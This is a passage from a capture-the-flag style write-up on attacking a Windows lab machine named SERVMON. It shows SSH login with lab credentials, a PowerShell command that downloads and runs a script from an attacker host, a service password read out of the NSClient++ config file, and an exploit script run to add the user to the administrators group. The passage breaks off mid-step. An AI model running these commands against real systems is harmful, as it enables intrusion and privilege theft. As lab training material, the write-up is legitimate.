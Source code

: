 Credentials: `nadine:L1k3B1gBut7s@W0rk`

SSH is running, so that works for login:

```text
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine

nadine@SERVMON C:\Users\Nadine>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

## Privilege Escalation

Here's how I was able to escalate privileges for full control of the system.

```powershell
PS C:\Users\Nadine> powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/wp.ps1')"
...
```

```powershell
PS C:\Program Files\NSClient++> cat .\nsclient.ini
...
; Undocumented key
password = ew2x6SsGTxjRwXOT
...
```

[NSClient++](https://nsclient.org/docs/) is a process monitor. Originally it was a Nagios thing but it's now a more generic component.

This may be vulnerable to <https://www.exploit-db.com/exploits/48360>, "NSClient++ 0.5.2.35 - Authenticated Remote Code Execution".

NSClient++ is running on port 8443. But, this fails if I hit the port directly:

```console
$ python3 x.py -t servmon.htb -P 8443 -p ew2x6SsGTxjRwXOT -c 'net localgroup administrators nadine /add'
[!] Targeting base URL https://servmon.htb:8443
[!] Obtaining Authentication Token . . .
[-] Error obtaining auth token, is your password correct? Hit error at: /auth/token
```

So, I setup LigoloNG and try it from the inside:
